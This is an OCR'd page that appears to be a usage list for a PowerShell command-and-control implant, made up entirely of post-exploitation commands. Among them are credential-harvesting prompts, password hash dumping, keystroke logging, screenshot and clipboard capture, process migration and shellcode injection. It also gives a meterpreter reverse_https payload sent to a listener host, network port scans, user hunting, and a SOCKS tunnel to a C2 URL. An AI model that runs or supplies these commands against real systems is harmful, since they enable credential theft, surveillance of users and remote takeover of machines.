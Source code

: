 Get-Screenshot

Get-ScreenshotMulti -Timedelay 120 -Quantity 30

Get-RecentFiles

Cred-Popper

Get-Clipboard

Hashdump

Get-Keystrokes -LogPath "$($Env:TEMP)\key.log"

PortScan -IPaddress 10.0.0.1-50 -Ports "1-65535" -maxQueriesPS 10000

Invoke-Portscan -Hosts 192.168.1.1/24,10.10.10.10 -T 4 -Ports "445,3389,22-25" | Select Hostname,OpenPorts

Invoke-UserHunter -StopOnSuccess

Migrate

Migrate -ProcID 444

Migrate -ProcessPath C:\Windows\System32\cmd.exe

Inject-Shellcode -x86 -Shellcode (GC C:\Temp\Shellcode.bin -Encoding byte) -ProcID 5634

Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 172.16.0.100 -Lport 443 -Force

Get-Eventlog -newest 10000 -instanceid 4624 -logname security | select message -ExpandProperty message | select-string -pattern "user1|user2|user3"

Send-MailMessage -to "itdept@test.com" -from "User01 <user01@example.com>" -subject <> -smtpServer <> -Attachment <>

SharpSocks -Uri http://www.c2.com:9090 -Beacon 2000 -Insecure
